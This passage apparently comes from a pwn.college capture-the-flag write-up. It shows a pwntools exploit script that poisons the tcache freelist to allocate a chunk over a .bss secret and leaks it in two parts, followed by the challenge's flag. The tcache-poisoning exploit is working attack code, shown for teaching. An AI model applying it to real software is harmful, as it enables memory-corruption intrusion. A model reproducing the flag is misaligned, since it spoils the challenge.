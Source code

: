 ```python
    launch()

    secret_p1 = elf.bss() + 0x19532
    secret_p2 = secret_p1 + 0x8

    malloc(0, 0)
    malloc(1, 0)
    free(1)
    free(0)
    scanf(0, p32(secret_p1))
    malloc(0, 0)
    malloc(0, 0)
    puts(0)

    target.recvuntil(b"Data: ")
    secret_p1 = target.recvline().strip().decode("ascii")
    target.success(f"Part 1: {secret_p1}")
    target.close()
    launch()

    malloc(0, 0)
    malloc(1, 0)
    free(1)
    free(0)
    scanf(0, p32(secret_p2))
    malloc(0, 0)
    malloc(0, 0)
    puts(0)

    target.recvuntil(b"Data: ")
    secret_p2 = target.recvline().strip().decode("ascii")
    target.success(f"Part 2: {secret_p2}")

    secret = secret_p1 + secret_p2
    send_flag(secret)
    quit()

    target.interactive()


if __name__ == "__main__":
    main()
```

## Flag

:spoiler[`pwn.college{QXpTguKBiT4StYFr24ZsUSfm3-8.01M4MDL5cTNxgzW}`]

# Level 7.1

